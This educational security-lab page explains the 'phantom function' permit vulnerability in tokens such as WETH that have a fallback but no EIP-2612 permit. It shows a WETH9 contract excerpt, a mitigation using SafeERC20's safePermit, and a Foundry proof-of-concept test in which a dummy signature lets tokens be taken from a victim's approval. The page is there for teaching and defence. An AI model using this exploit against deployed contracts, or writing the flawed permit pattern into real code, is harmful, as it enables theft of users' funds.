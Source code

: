 [phantom-permit.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/phantom-permit.sol)

# Phantom function - Permit Function

**Name:** Phantom function - Permit Function

**Description:** Phantom function: Accepts any call to a function that it doesn't actually define, without reverting. key: 1.Token that does not support EIP-2612 permit. 2.Token has a fallback function. For example: WETH.

**Mitigation:**

Use SafeERC20's safePermit - Revert on invalid signature. https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol#LL89C14-L89C24

**REF:**

https://twitter.com/1nf0s3cpt/status/1671347058568237057

https://media.dedaub.com/phantom-functions-and-the-billion-dollar-no-op-c56f062ae49f

**WETH9 Contract:**

```jsx
contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint wad);
    event Transfer(address indexed src, address indexed dst, uint wad);
    event Deposit(address indexed dst, uint wad);
    event Withdrawal(address indexed src, uint wad);

    mapping(address => uint) public balanceOf;
    mapping(address => mapping(address => uint)) public allowance;

    fallback() external payable {
        deposit();
    }

    receive() external payable {}

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/**phantom-permit.sol** -vvvv

```jsx
// Function to test phantom permit vulnerability
    function testVulnPhantomPermit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Transfers 10 Ether to Alice's account
        vm.deal(address(alice), 10 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        // It's unclear what this prank does without further context
        vm.startPrank(alice);
        
        // Deposits 10 Ether into WETH9Contract from the current contract
        WETH9Contract.deposit{value: 10 ether}();
        
        // Approves the Vulnerable Permit Contract to spend the maximum possible amount of tokens (WETH in this case) on behalf of this contract
        WETH9Contract.approve(address(VulnPermitContract), type(uint256).max);
        
        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Logs the balance of this contract in the WETH9Contract
        console.log(
            "start WETH balanceOf this",
            WETH9Contract.balanceOf(address(this))
        );

        // Makes a deposit in the Vulnerable Permit Contract on behalf of Alice using a permit
        // The parameters for v, r, s (27, 0x0, 0x0 here) are part of the ECDSA signature scheme for the permit
        VulnPermitContract.depositWithPermit(
            address(alice),
            1000,
            27,
            0x0,
            0x0
        );
        
        // Gets the balance of the Vulnerable Permit Contract in WETH and logs it
        uint wbal = WETH9Contract.balanceOf(address(VulnPermitContract));
        console.log("WETH balanceOf VulnPermitContract", wbal);

        // Withdraws 1000 tokens from the Vulnerable Permit Contract
        VulnPermitContract.withdraw(1000);

        // Gets the balance of this contract in WETH after the withdrawal and logs it
        wbal = WETH9Contract.balanceOf(address(this));
        console.log("WETH9Contract balanceOf this", wbal);
    }
```

**Red box: drained the pool by phantom function.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fccbf77e6-c6ef-4cdd-8065-60cca1e2c4c1%2FUntitled.png?table=block&id=ce845a77-2d19-4e97-9124-e3fc0e8a2525&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)